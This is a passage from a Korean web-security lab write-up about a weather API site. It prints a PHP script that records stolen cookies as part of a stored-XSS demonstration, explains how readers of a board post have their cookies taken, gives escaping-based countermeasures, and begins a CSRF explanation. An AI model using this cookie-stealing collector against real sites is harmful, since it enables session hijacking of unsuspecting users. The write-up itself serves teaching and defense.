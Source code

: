 ```php
<?php
	$cookie=$_GET['data'];
	$atime=date("y-m-d H:i:s");
	$log=fopen("data.txt","a");
	fwrite($log, $atime." ".$cookie."\r\n");
	fclose($log);
	echo "<img src=hacker.png></img>";
?>
```
<figcaption>XSS 공격 코드 (2/2)</figcaption>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FmZVZt%2FbtrdVjr5UXJ%2FcQCJOVYYJICHXUZ3Pdekk0%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 14. XSS를 이용한 쿠키 값 탈취 (1/4)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fbw6sV1%2FbtrdXyoL4dZ%2F4ONeRfPX5ru7YKnRFLldik%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 15. XSS를 이용한 쿠키 값 탈취 (2/4)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FkIJG0%2FbtrdVOFoSlq%2FD6rOTBvXMimWLCog6FAjUk%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 16. XSS를 이용한 쿠키 값 탈취  (3/4)</figcaption>
</figure>

<figure>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbjtDK9%2FbtrdOWFuPWh%2FkPFff5I2EmArUEwgNNGVC0%2Fimg.png
" alt="Weather API Web Sites - Main">
<figcaption>Fig 17. XSS를 이용한 쿠키 값 탈취 (4/4)</figcaption>
</figure>

게시글을 읽는 사람은 `해커`의 웹 서버에 `cookie.php`를 읽고 `쿠키값이 탈취` 되며, 사진 창이 띄어지도록 하였고, `fopen`을 통하여 해커 `data.txt`에 시간, 쿠키값을 `저장`하도록 하였습니다.
<br>
#### 대응 방안
현재 공격이 가능한 부분은 게시판에서 `글을 쓸때, 댓글을 쓸때`XSS공격이 가능합니다.
<br>XSS 공격이 가능함에 따라 Stored XSS를 이용하여 `사용자의 쿠키값이 노출`되고 있습니다.
<br>이러한 상황을 방어하기 위해서는 `유효성 검사`를 통해 <script 태그, 태그 문자(<,>,",')를 `이스케이핑` 한다.
<br>(`태그문자 : <(&lt), >(&gt), "(&quot), '(&apos), &(&amp) 등등`)

<hr>
## 4-3 <sup id="csrf">[[4]](#user-ref4)</sup> `CSRF` `: Cross Site Request Forgery`

1. XSS와 `동일한 원리`로 게시판, 이메일 등 컨텐츠에 `악성 스크립트` 또는 HTML 태그 삽입
2. 사용자 측 브라우저에서 `삽입된 스크립트` 또는 HTML 태그가 실행됨
3. 공격자가 의도한 행위(CRUD)가 있는 위조된 HTTP 요청이 `강제로 수행`됨
